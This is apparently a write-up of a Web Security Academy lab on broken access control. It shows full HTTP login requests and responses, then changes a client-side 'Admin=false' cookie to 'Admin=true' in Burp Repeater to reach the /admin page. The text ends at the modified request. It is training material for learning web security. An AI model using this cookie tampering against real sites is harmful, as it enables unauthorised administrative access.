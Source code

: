 **Solution:**

This lab contains a shopping application that contains different products to sell. There is a `My account` button on the site that redirects us to the `/login` page there we can login to our account using the username and password combination. If any of these didn't match to individual user account combination, they throw an error message such as:

```
Invalid username or password.
```

We can manually visit the `/admin` endpoint, which is indeed our primary objective to access it. By visiting without any authentication they show us the following message.

```
Admin interface only available if logged in as an administrator
```

Knowing this we can login to our account using the given credentials `wiener:peter`. The login request/response looks like the following:

**Request**
```
POST /login HTTP/1.1
Host: 0a5e006a04a782cd8137892300df00a3.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Origin: https://0a5e006a04a782cd8137892300df00a3.web-security-academy.net
Connection: keep-alive
Referer: https://0a5e006a04a782cd8137892300df00a3.web-security-academy.net/login
Cookie: session=sM5l5ujTP0wcac3hdi62PIpM682cEWLb

csrf=U7BMrk1wB5vurfuk8A5uUqZSnvYTddW7&username=wiener&password=peter
```
**Response**
```
HTTP/1.1 302 Found
Location: /my-account
X-Frame-Options: SAMEORIGIN
Connection: close
Content-Length: 0
Set-Cookie: Admin=false; Secure; HttpOnly
Set-Cookie: session=Jw59kJ5MnkZjiSZpzytIw9NvwlsOArME; Secure; HttpOnly; SameSite=None
```

Notice the response set the cookie `Admin=false`, we didn't change it yet and tried to visit the `/admin` endpoint with that. We see the same message we get before but now knowing the cookie contains the parameter `Admin=false`, let's change it to `true` and see if they give us any access to the `/admin` endpoint.

We can change that value using the browser's native developer tools but for the sake of simplicity, we use Burp Suite Repeater. Send the `GET /admin` request to the burp repeater and change the cookie value to `Admin=true`. The request should look like the following:

```
GET /admin HTTP/1.1
Host: 0a5e006a04a782cd8137892300df00a3.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Connection: keep-alive
Cookie: session=Jw59kJ5MnkZjiSZpzytIw9NvwlsOArME; Admin=true
```
